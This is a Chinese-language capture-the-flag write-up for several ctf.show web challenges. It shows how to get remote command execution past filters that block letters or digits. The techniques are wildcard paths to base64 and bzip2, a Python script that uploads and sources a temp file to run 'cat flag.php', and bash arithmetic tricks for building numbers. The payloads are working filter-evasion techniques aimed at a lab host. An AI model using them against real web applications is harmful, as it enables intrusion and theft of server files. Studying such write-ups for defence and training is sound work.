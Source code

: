 解题思路：该题过滤了所有字母，但是没有过滤数字，所以我们需要不带字母的命令获取flag。

方法一：、匹配到/bin目录下的命令cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等，我们可以使用base64

Palyload：/?c=/???/????64 ???????? 等价于/?c=/bin/base64 flag.php

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/5a3ed940a83a9b388d1603b055996b59.png)

方法二：bzip2命令

思路：将flag文件进行压缩，然后再访问下载。

/usr/bin目录下主要放置一些应用软件工具必备的执行档。

Playload：?c=/???/???/????2 ????.??? 也就是/usr/bin/bzip2 flag.php

然后访问/flag.php bz2,下载解压即可。

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/87e0d99c51ac94a8fb3c67cb63701a51.png)

## Web41、56：

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/ea3afcaedec903286da2e12d29af8a2c.png)

解题思路：无数字字母的rce，看到这我们可以想到一个便洁的方法，写脚本。

import requests

while True:
 url = "http://28678ba1-1214-4511-adcb-6b04d3e57a88.challenge.ctf.show/?c=.+/???/????????[@-[]"
 r = requests.post(url, files={"file": ('feng.txt', b'cat flag.php')})
 if r.text.find("flag") \> 0:
 print(r.text)
 break

得到flag：

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/a93accd7360e8d7b676bb44f2357c676.png)

## Web57：

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/f407472a85814f8c26ec8b540d9d6ac5.png)

解题思路：该题给了提示flag在36.php里面，我们可以通过"取反"

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/acd9c093fc81180e8f7b28e569e2312b.png)

- echo ${\_} #返回上一次的执行结果

- echo $(()) #0

- echo $((~$(()))) #~0是-1

- $(($((~$(())))$((~$(()))))) #$((-1-1))即$$((-2))是-2

- echo $((~-37)) #~-37是36
